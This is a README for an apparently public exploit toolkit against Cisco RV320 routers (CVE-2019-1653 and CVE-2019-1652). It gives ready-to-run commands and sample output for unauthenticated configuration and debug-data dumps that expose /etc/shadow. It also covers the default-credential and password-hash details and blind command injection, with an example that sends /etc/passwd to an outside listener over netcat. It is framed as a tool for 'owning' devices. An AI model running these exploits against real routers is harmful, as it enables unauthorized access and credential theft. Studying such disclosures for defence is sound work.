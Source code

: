 # CiscoRV320Dump
CVE-2019-1653/CVE-2019-1652 Exploits For Dumping Cisco RV320 Configurations and getting RCE

Implementations of the CVE-2019-1652 and CVE-2019-1653 exploits disclosed by Red Team Pentesting GmbH.

## Exploits...

### Config Dumper Exploit...
For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python dump_config.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

### Debug Data Dumper Exploit...
For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python dump_debug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. 

A few notes on the "hashing" of the password, before we go any further. On these, in the config file, you will find a variable named PASSWD followed by an md5 hash. 
This md5 hash is `md5($password.$auth_key)`, where the auth_key is a static value you can find by doing a `GET /` and parsing. 
There is a seemingly common one that I hardcoded into the RCE exploit as a fallback incase the page parser bullshit regex fails.

### Post-Auth RCE Exploit
CVE-2019-1652 outlines a trivial shell command injection vulnerability, which requires authentication. `exec_cmd.py` implements this, assuming you have valid login creds. "cisco:cisco" is the default, but you could also crack some hashes.

The command injection is blind, so you won't get any output. The environment is an incredibly limited Busybox setup with a crippled netcat, and the boxes are mips64, so I didn't bother writing a reverse-shell exploit this time. You can, however, get command output by doing stuff like `cat /etc/passwd | nc HOST PORT` and having a listener running, or whatever. 

Example run of the exploit below:  
```
$ python exec_cmd.py -t x.x.x.x -s -p 8443 -U cisco -P cisco -c "cat /etc/passwd | nc x.x.x.x 1337"
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: cat /etc/passwd | nc x.x.x.x 1337
{+} We don't get output so... Yeah. Shits blind.
$
# on listener...
$ nc -lp 1337
root:x:0:0:root:/:/bin/admin
nobody:x:0:0:nobody:/nonexistent:/bin/false
_lldpd:x:501:501:_lldpd:/:/bin/sh
cisco:x:0:0:root:/bin:/bin/admin

$
```

Happy 0wning kids. 

